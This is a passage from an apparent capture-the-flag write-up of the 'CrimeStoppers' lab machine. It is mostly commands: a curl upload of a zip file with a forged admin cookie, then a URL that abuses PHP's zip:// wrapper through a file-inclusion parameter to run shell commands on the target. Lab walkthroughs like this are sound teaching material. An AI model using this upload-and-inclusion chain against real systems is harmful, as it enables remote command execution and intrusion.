 ```php
curl -XPOST -F "tip=@enox.zip" -F "name=what" -F "token=f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" -F "submit=Send Tip" -H "Cookie: admin=1; PHPSESSID=f72kdra1sff97oi3egpj95m7e5" http://10.10.10.80/\?op\=upload --proxy http://127.0.0.1:8080
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2013.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2014.png)

⇒ Now we know the filename and where the zip file is uploaded to. So now we can unzip it and run commands on the system :

```php
http://10.10.10.80/?op=zip://uploads/10.10.14.15/cda3c3712e5777e3808d81691561a1e481da0e7a#enox&cmd=id
```

**`http://10.10.10.80/?op=zip://uploads/10.10.14.15/cda3c3712e5777e3808d81691561a1e481da0e7a%23enox&cmd=id`**
